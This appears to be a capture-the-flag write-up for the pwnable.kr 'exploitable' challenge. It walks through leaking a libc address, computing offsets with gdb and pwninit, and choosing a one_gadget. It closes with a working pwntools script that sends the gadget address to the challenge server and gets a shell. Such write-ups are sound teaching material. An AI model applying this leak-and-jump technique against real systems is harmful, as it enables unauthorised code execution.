




# Exploitable

Tbh, exploitable is one of the easiest challenges i solved in `pwnable.kr`
Lets take a look of the c code!

```c
#include <stdio.h>

void leak_memory(int fd, int addr, int len, int key1, int key2, int key3, int key4, int key5, int key6){
        if(key1==0xcafebabe && key2==0xdeadbeef){
                if(key3+key4+key5+key6==14){
                        write(fd, addr, len);
                }
        }
}

void main(){
        int eip;
        int n;
        leak_memory(1, &stdout, 4, 0xcafebabe, 0xdeadbeef, 1, 3, 3, 7); // leak libc
        scanf("%d", &eip);
        ((int(*)())eip)(0xdeadbeef);    // hijack control flow!
}
```

The code gives you the address of `stdout` and tells you to leak `libc`
Then you can  litterely give an offset and just the code will jump to it.
The challenge is basicly two parts:
- How to leak libc
- Where to jump

So for the first task, `ASLR` makes the address a library gets loaded to random, but not the offsets, which means the offset between `stdout` to start of `libc` is always the same.
## Important when dealing with libc

One important thing, is to check the `libc` version in the remote, is identical to ours.
In my case its not, so what can we do?
First, download `pwninit` , then go to the ssh and download the libc they are using, and the linker (using `ldd`)



Put the binary, the libc and the linker in the same directory and run:
```bash
pwninit --bin <your elf>
```

Ok now lets check the offset!

We can see the address that stdout gonna be stored in.
Lets use gdb to calculate the offset from libc.


We can now calculate

```
0xf7fced60 - 0xf7e1b000 = 1785184
```

Now when we have the offset, we can select a gadget, and we can calculate the address to it.

## One_gadget

In this challenge, the problem is we cant control the stack or the registers.
so we need a gadget which just jumping it will give us a shell,
there is a tool called `one_gadgert` that can help us!



Every gadget, have constraints we need to fill in order to get a shell,
for some reason it tells us for every gadget that `esi` needs to be the GOT address of libc, but its a lie!
The first one looks reasonable, since its not that rare that `NULL` occurs on the stack, so i just tried to take the first gadget and add it to libc leak!

```python
#!/usr/bin/python3

from pwn import *
import ctypes

stdout_offset = 1785184
gadget_offset = 0x3ac6c

p = remote("pwnable.kr", 9018)

libc_stdout_addr = u32(p.recv(4))
print("libc stdout: " + hex(libc_stdout_addr))

libc = libc_stdout_addr - stdout_offset
print("libc addr: " + hex(libc))

gadget_addr = libc + gadget_offset
addr = str(ctypes.c_int32(gadget_addr).value)
p.sendline(addr)

p.interactive()
```

![[exploitable/images/win.png]]